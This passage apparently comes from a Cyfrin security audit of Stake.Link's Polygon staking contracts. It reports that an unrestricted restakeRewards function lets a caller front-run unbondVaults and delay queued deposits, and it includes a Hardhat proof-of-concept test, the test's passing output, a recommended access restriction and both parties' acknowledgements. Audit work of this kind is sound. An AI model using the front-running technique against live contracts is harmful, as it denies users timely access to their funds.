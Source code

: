 In this scenario, queued token deposits will face denial of service

**Proof of Concept:** Add the following:

```javascript
 describe.only('restakeRewards forces protocol to wait for withdrawal delay', async () => {
    it('should force protocol to wait for withdrawal delay', async () => {
      const { token, strategy, vaults, fundFlowController, withdrawalPool, validatorShare } =
        await loadFixture(deployFixture)

      await withdrawalPool.setTotalQueuedWithdrawals(toEther(960))
      assert.equal(await fundFlowController.shouldUnbondVaults(), true);

      // 1. Pre-condition: one validator can cover the amount to unbond with his rewards.
      await validatorShare.addReward(vaults[0].target, toEther(1000));

      // 2. User front-runs the unbondVaults transaction and restakes rewards for validators.
      await strategy.restakeRewards([0]);

      const totalQueuedBefore = await strategy.totalQueued();
      // 3. Protocol is forced to unbond and wait for withdrawal delay even though
      // it could obtain the funds after calling vault.withdrawRewards.
      await fundFlowController.unbondVaults()
      const totalQueuedAfter = await strategy.totalQueued();

      assert.equal(await fundFlowController.shouldUnbondVaults(), false)

      // 4. TotalQueued did not increase, meaning strategy could not withdraw any funds
      // and vault is unbending(it wouldn't be if it cover the funds with the rewards).
      assert.equal(totalQueuedBefore, totalQueuedAfter)
      assert.equal(await vaults[0].isUnbonding(), true)
    })
  })
```

Here is the output:

```javascript
  PolygonFundFlowController
    restakeRewards forces protocol to wait for withdrawal delay
      ✔ should force protocol to wait for withdrawal delay (626ms)


  1 passing (628ms)
```

**Recommended Mitigation:** Consider restricting access to `restakeRewards` in both the strategy and vault contracts.


**Stake.Link:** Acknowledged. There should never be a significant amount of unclaimed rewards under normal circumstances as they will be claimed every time there is a deposit/unbond.

**Cyfrin:** Acknowledged.

